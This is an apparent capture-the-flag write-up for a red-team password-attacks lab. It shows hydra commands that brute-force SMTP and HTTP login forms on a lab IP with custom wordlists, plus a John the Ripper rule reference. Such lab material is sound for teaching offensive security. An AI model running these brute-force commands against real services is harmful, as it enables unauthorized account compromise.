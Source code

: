 Creating custom rule in `john.conf ` file location `/etc/john/john.conf`

![image-20220911083632376](./assets/image-20220911083632376.png)

cracking password for `pittman@clinic.thmredteam.com` using custom wordlist and hydra

```shell
hydra -l pittman@clinic.thmredteam.com -P clinic.txt smtp://10.10.116.173 -v
```

![image-20220911083839956](./assets/image-20220911083839956.png)

cracking password of `http://10.10.116.173/login-get/` using hydra and clinic.lst

```shell
hydra -l phillips -P clinic.lst 10.10.116.173 http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f -v
```

![image-20220911090021849](./assets/image-20220911090021849.png)

cracking password of `http://10.10.116.173/login-post/index.php` using hydra and and custom wordlist with rule `Single-Extra` with `clinic.lst `dictionary

```shell
hydra -l burgess -P fun.txt 10.10.116.173 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout" -f -v
```

![image-20220911093324554](./assets/image-20220911093324554.png)

# Password spray attack                            
